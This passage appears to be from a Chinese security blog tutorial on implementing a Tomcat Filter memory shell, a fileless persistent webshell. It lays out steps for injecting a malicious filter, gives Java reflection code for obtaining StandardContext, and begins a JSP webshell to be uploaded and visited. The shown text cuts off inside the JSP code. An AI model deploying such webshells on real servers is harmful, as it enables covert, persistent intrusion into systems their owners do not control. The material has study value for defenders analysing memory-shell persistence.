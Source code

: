 `filterMaps`中以array的形式存放各filter的路径映射信息，其对应的是web.xml中的`<filter-mapping>`标签

![image-20221110120943671](images/19.png)

# Filter内存马实现

看来上面的注册流程就大概清楚了

我们需要去获取一个StardardContext对象，修改里面的filterMaps，因为filterConfig是ApplicationFilterConfig属性，所以需要添加我们的filter到ApplicationFilterConfig里去，这样在根据filterMaps的url寻找filter的时候才能找到我们注册的filter，接下来就是将filterDef添封装进filterConfig

所以添加恶意filter的思路就是

1. 获取StandardContext对象
2. 获取FilterConfigs这个Map对象，通过name判断filter是否存在
3. 创建恶意Filter
4. 使用FilterDef对Filter进行封装，并添加必要的属性
5. 创建filterMap类，并将路径和Filtername绑定，然后将其添加到filterMaps中
6. 使用ApplicationFilterConfig封装filterDef，然后通过map.put将其添加到filterConfigs这个map中中

## 获取StardardContext

StandardContext对象主要用来管理Web应用的一些全局资源，如Session、Cookie、Servlet等。因此我们有很多方法来获取StandardContext对象。

Tomcat在启动时会为每个Context都创建个ServletContext对象，来表示一个Context，从而可以将ServletContext转化为StandardContext。

```
//从request中获取ServletContext
ServletContext servletContext = req.getSession().getServletContext();

//从context中获取ApplicationContext对象
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

//从ApplicationContext中获取StandardContext对象
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```



## 实现代码

如果文件上传的话就上传这样一个jsp马，访问后即可

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStream" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "DawnT0wn";
```